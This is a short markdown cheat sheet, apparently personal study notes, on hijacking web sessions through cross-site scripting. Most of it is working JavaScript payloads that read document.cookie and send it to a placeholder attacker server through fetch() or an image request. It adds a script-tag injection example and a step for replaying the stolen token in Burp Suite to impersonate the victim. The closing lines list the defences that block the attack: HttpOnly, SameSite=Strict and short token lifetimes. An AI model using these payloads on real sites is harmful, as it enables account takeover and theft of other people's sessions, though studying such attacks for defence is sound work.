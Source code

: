 # Session Hijacking with XSS

**Document.cookie** Is a JavaScript-accessible storage area that stores session tokens, auth IDs, etc.
- If a web app doesn’t protect it with `HttpOnly`, you can steal it using XSS.

```js
alert(document.cookie);
```
**Boom.** You see the victim’s session token
- You now control their account if the site is weak.

## simple payload to steal and send cookies to my server
```js
fetch("https://your-webhook-url.com?cookie=" + document.cookie);
```
**OR**

```js
new Image().src = "https://your-webhook-url.com?c=" + document.cookie;
```
## Real world case
- If a site sets
`Set-Cookie: session=eyJ1c2VyIjoiam9obiJ9; Path=/; Secure`
But no `HttpOnly`?
- You inject
```js
<script>
  new Image().src = "https://yourbin.com/?c=" + document.cookie;
</script>
```
- Replay it using burpsuite to impersonate the user.

  ## This wont work if:
- the cookie has HttpOnly → can't be stolen by JS
- it's SameSite=Strict → won't be sent cross-site
- the session system expires tokens fast
